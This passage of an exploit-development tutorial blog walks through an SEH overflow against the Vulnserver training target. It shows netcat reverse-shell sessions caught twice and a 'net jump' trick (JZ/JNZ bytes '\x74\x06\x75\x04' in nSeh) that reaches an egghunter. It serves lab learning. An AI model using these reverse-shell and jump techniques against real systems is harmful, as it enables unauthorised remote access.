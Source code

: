 When we run this code against Vulnserver unattached to Immunity, we net our reverse shell, very cool. 

```terminal_session
astrid:~/ # nc -lvp 443                                                                                                                 
listening on [any] 443 ...
192.168.1.201: inverse host lookup failed: Unknown host
connect to [192.168.1.199] from (UNKNOWN) [192.168.1.201] 49171
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\IEUser\Desktop>
```

## Net Jumping Thanks to OJ

As OJ REEVES (aka @TheColonial) points out in his fantastic blogpost on [Jumping With Badcharacters](https://buffered.io/posts/jumping-with-bad-chars/), this type of approach where we attempt to satisfy a condition and then use the requisite conditional jump can be complicated. Sometimes we won't have enough space to operate, sometimes we will have to make assumptions about other flags that may or may not be true. So OJ describes a different approach which will meet criteria no matter what. 

OJ presents this as if it's boring and unclever, but I was quite tickled at how cool it is. Basically if a condition can be either True or False, we can just account for both contingencies by placing opcodes for 'Jump if True' and 'Jump if False' side by side. If the condition is False, and the instruction pointer comes to this 'Jump if True' opcode, the opcode will simply be passed over without executing the jump. The instruction pointer will then grace our 'Jump if False' opcode and the condition will be met and the jump will execute!

OJ gives several examples of conditional short-jump codes that can be used in what he calls a 'Net Jump'. Let's try out the Zero Flag family of conditional jumps and see the technique in action. 

Since we don't really know what state the flags will be in when we reach our jumpcode, we can account for the Zero flag being set and unset by juxtaposing the opcodes `\x74` (`JZ`) and `\x75` (`JNZ`) respectively. The first jumpcode will have a distance of 6 bytes because if its condition is met, it will have to clear our second contigency (2 bytes) and the other SEH component (4 bytes). If the second jumpcode condition is met, it will only have to travel over the other SEH component (4 bytes) to reach our egghunter. 

So let's put this into our exploit by once more modifying our `nSeh` variable to `'\x74\x06\x75\x04'`. 

Running our exploit code against Vulnserver again nets us our reverse shell!

```terminal_session
astrid:~/ # nc -lvp 443                                                                                                                
listening on [any] 443 ...
192.168.1.201: inverse host lookup failed: Unknown host
connect to [192.168.1.199] from (UNKNOWN) [192.168.1.201] 49172
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\IEUser\Desktop>
```
